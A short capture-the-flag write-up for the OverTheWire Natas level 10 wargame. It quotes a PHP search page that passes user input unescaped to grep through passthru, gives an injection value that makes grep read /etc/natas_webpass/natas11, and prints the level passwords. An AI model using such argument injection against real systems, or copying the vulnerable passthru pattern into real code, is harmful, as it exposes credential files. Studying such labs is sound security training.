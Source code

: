 # Natas Level 10
The ***URL*** to which you need to connect is *http://natas10.natas.labs.overthewire.org*. The ***username*** is *natas10* and the ***password*** is *nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu*. 

Lets check the [viewsource](http://natas10.natas.labs.overthewire.org/index-source.html) link.
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

By analysing the php script we see that there's certain characters like ;, | and &. Therefore, we can exploit the features in grep command like you can search in 2 files.

```
[A-Z] /etc/natas_webpass/natas11
```

```
Password : U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```
